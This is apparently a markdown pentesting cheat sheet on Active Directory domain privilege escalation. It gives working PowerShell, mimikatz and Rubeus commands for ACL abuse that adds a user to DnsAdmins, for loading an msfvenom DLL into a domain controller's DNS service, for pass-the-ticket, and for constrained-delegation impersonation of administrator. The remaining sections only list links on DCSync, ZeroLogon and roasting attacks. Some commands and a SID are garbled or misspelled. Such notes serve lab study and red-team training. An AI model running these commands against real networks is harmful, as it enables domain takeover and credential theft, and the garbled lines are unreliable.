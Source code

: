 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
#make a privescl.dll with msfvenom
rundll32.exe .\privesc.dll,DnsPluginInitialize

dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

## DCSync Attack

* [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729) 
* [DC Sync Attacks With Secretsdump.py](https://youtu.be/QfyZQDyeXjQ)

## ZeroLogon (CVE-2020-1472)

* [CrowdStrike's Guide to ZeroLogon](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
* [TheCyberMentor's Video](https://www.youtube.com/watch?v=6xMGsdD-ArI/)

## Unconstrained delegation

* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)

```powershell
mimikatz# sekurlsa::tickets
mimikatz# mimikatz::tickets /export
mimikatz# kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```


## Constrained Delegation

```powershell
PS C:\> Rubeus.exe tgtdeleg

# ticket is the base64 ticket we get with `rubeus's tgtdeleg`
Rubeus.exe s4u /ticket:doIFCDC[...]TE9DQUw= /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
```

## Kerberoasting

* [Attack Tutorial: Kerberoasting](https://youtu.be/beRDcvBwTBw)
* [Active Directory - Kerberoasting by Conda](https://youtu.be/-3MxoxdzFNI)
* [Kerberoasting Explained | Kerberos Authentication](https://youtu.be/ajOr4pcx6T0)

## ASPRoasting

* [Harmjoy's Roasting AS-REPs Tutorial](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [CRACKING ACTIVE DIRECTORY PASSWORDS WITH AS-REP ROASTING](CRACKING ACTIVE DIRECTORY PASSWORDS WITH AS-REP ROASTING)
